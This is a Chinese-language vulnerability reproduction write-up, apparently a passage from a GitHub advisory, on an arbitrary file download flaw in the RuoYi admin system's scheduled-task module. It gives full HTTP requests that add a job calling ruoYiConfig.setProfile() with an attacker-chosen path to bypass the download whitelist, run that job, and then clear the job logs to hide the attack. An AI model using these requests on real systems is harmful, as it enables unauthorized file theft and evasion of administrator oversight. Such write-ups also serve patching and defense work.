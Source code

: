 1. 攻击者需获取管理员 Cookie（如 JSESSIONID  
）或存在其他权限绕过漏洞。  
  
1. 若后台接口未授权即可访问，则漏洞危害升级为“未授权任意文件下载”。  
  
1. **系统配置**  
：  
  
1. 目标系统启用了定时任务模块（默认开启）。  
  
## 漏洞复现  
#### 添加任务绕过白名单（自定义下载文件路径）  
```
POST /monitor/job/add HTTP/1.1
Host: 10.40.107.67
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 214Connection: closecreateBy=admin&jobId=161&jobName=test111&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('/Users/apple/Desktop/Locks/javafx.txt')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```  
- 通过调用 ruoYiConfig.setProfile()  
 方法，将系统配置文件路径动态修改为攻击者指定的路径（如 /Users/apple/Desktop/Locks/javafx.txt  
）。  
  
- 此操作绕过了下载功能原本的“固定目录白名单”限制，将下载路径指向自定义位置。  
  
#### 执行定时任务（触发配置修改）  
```
POST /monitor/job/run HTTP/1.1
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 10.40.107.67
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 9Connection: closejobId=117
```  
- 立即执行 jobId=117  
 对应的定时任务，触发 ruoYiConfig.setProfile()  
 方法调用，完成配置文件路径的修改。  
  
- 修改后，系统将从新的配置路径（攻击者指定路径）读取文件。  
  
#### 清理任务日志（擦除攻击痕迹）  
```
POST /monitor/jobLog/clean HTTP/1.1
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 10.40.107.67
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Content-type: application/x-www-form-urlencodedContent-Length: 0Connection: close
```  
- 删除任务执行日志，避免管理员发现恶意任务记录。  
  